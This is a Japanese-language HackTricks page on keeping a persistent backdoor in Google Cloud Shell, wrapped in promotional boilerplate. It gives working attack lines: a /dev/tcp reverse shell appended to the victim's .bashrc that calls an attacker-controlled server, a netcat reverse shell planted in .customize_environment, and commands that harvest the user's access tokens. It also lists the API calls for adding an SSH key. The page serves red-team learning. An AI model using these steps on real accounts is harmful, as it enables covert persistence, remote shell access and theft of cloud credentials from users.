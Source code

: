 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

詳細については、次を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) は、関連するコストなしにブラウザから直接クラウドリソースへのコマンドラインアクセスを提供します。

**ウェブコンソール**から、または**`gcloud cloud-shell ssh`**を実行することでGoogleのCloud Shellにアクセスできます。

このコンソールには攻撃者にとって興味深い機能があります：

1. **Google Cloudにアクセスできる任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織のオーナーであってもアクセス可能です）。
2. そのインスタンスは、**活動がない場合、少なくとも120日間はホームディレクトリを維持します**。
3. そのインスタンスの活動を**組織が監視する能力はありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置でき、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアは生き残り、攻撃者は実行するたびにシェルを取得できることを意味します：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合はユーザーが **cloud shell** にアクセスするたびに **実行されます**（前の技術と同様に）。前述のバックドアまたは以下のようなものを挿入して、ユーザーが「頻繁に」cloud shell を使用している限り、持続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要な点は、**認証を必要とするアクションが初めて実行されるとき**、ユーザーのブラウザにポップアップ認証ウィンドウが表示されることです。このウィンドウは、コマンドを実行する前に受け入れられなければなりません。予期しないポップアップが表示されると、疑念を引き起こし、使用している持続性メソッドが危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェルから `gcloud projects list` を実行したときのポップアップ（攻撃者として）で、ブラウザのユーザーセッションで表示されます：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

しかし、ユーザーがクラウドシェルを積極的に使用している場合、ポップアップは表示されず、**ユーザーのトークンを収集することができます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、これらの3つのAPI呼び出しが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPを教えてくれます)

しかし、さらなる情報は[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
